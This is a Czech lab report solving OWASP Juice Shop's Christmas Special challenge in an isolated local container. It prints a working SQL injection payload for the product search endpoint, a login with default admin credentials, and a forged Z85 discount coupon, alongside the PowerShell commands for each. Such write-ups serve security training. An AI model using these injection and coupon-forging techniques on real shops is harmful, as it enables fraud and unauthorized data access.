






# Úloha 1 – OWASP Juice Shop: Vánoční speciál 2014 a říjnový 50% kupón

**Datum provedení:** 10. 11. 2026 
**Umístění reportu:** `odevzdani/Uloha-1-Juice-Shop.md` 
Příkazy jsem spouštěl z kořene repozitáře. Odkazy na soubory a snímky jsou relativní k tomuto reportu.

### Postup krok za krokem

1. **Spuštění izolované aplikace.** Juice Shop `v20.4.0` jsem spustil v dočasném kontejneru Docker dostupném jen přes `127.0.0.1:3000`. Potřeboval jsem ověřit říjnový kupón i 10. listopadu, proto jsem pomocí [fake-october.js](../juiceshop/fake-october.js) nastavil datum 15. 10. 2026 pouze procesu aplikace. Čas hostitelských Windows jsem neměnil. Po dokončení jsem kontejner odstranil. Postup lze zopakovat těmito příkazy:

   ~~~powershell
   docker create --rm --name kb4r-juiceshop -p 127.0.0.1:3000:3000 bkimminich/juice-shop:v20.4.0 --require /juice-shop/fake-october.js /juice-shop/build/app.js
   docker cp .\juiceshop\fake-october.js kb4r-juiceshop:/juice-shop/fake-october.js
   docker start kb4r-juiceshop
   ~~~

2. **Nalezení skrytého výrobku.** Produkt nebyl v běžném katalogu, proto jsem do koncového bodu `/rest/products/search` poslal dotaz `')) AND name LIKE '%Christmas%'--`. V odpovědi jsem našel **Christmas Super-Surprise-Box (2014 Edition)** s `id: 10`, cenou `29.99` a vyplněným `deletedAt`.

   ~~~powershell
   $q = [uri]::EscapeDataString("')) AND name LIKE '%Christmas%'--")
   (Invoke-RestMethod "http://127.0.0.1:3000/rest/products/search?q=$q").data |
       Select-Object id,name,price,deletedAt
   ~~~

   

3. **Přihlášení a vložení do košíku.** Použil jsem přednastavený účet Juice Shopu `admin@juice-sh.op` / `admin123`. Odpověď `POST /rest/user/login` mi dala token a číslo košíku; přes `POST /api/BasketItems/` jsem do něj vložil jeden kus produktu ID 10. Ostatní položky jsem odstranil, abych mohl jednoznačně zkontrolovat cenu tohoto výrobku.

   ~~~powershell
   $base = 'http://127.0.0.1:3000'
   $credentials = @{ email='admin@juice-sh.op'; password='admin123' } | ConvertTo-Json -Compress
   $login = Invoke-RestMethod "$base/rest/user/login" -Method Post -ContentType 'application/json' -Body $credentials
   $headers = @{ Authorization = 'Bearer ' + $login.authentication.token }
   $item = @{ BasketId=$login.authentication.bid; ProductId=10; quantity=1 } | ConvertTo-Json -Compress
   Invoke-RestMethod "$base/api/BasketItems/" -Method Post -ContentType 'application/json' -Headers $headers -Body $item
   ~~~

   

4. **Kupón z října 2026.** Potřeboval jsem kód pro říjen 2026 a 50% slevu, proto jsem zakódoval obsah `OCT26-50` knihovnou Z85 přítomnou v kontejneru. Výsledkem byl kupón **`pEw8phz3^u`**. Kód jsem sestavil sám; neověřoval jsem, zda jej obchod někdy veřejně vydal.

   ~~~powershell
   docker exec kb4r-juiceshop /nodejs/bin/node -e "const z85=require('/juice-shop/node_modules/z85'); console.log(z85.encode('OCT26-50'))"
   ~~~

5. **Nákup.** V košíku jsem zvolil `Checkout`, předvyplněnou adresu `0815 Test Street`, bezplatné `Standard Delivery` a uloženou kartu končící `4368`. V `Add a coupon` jsem zadal `pEw8phz3^u` a použil `Redeem`. Po potvrzení 50% slevy jsem na `Order Summary` zkontroloval, že objednávka obsahuje jen vánoční produkt, a klikl na `Place your order and pay`. Aplikace objednávku dokončila a výzvu `Christmas Special` označila jako splněnou.

   

   

   

   

### Výsledek

| Položka | Hodnota |
|---|---:|
| Produkt | 1× Christmas Super-Surprise-Box (2014 Edition) |
| Cena produktu | 29,99 ¤ |
| Kupón | `pEw8phz3^u` = `OCT26-50` |
| Potvrzená sleva | 50 % |
| Promotion na potvrzení | 14,99 ¤ |
| **Finální Total Price** | **15,00 ¤** |
| ID objednávky | `5267-ef893feda5fcbc8e` |

Stránka shrnutí před potvrzením zobrazila `Total Price 14,99 ¤`, zatímco potvrzená objednávka `15,00 ¤`. Jako skutečný výsledek uvádím částku na finálním potvrzení. Polovina z 29,99 ¤ je 14,995 ¤, takže rozdíl odpovídá různému zaokrouhlení.

### Zdroje

- [Oficiální průvodce OWASP Juice Shop – Christmas Special a kupóny](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html)
- [Zdrojový kód Juice Shop – generování a čtení kupónů](https://github.com/juice-shop/juice-shop/blob/266448a/lib/insecurity.ts)
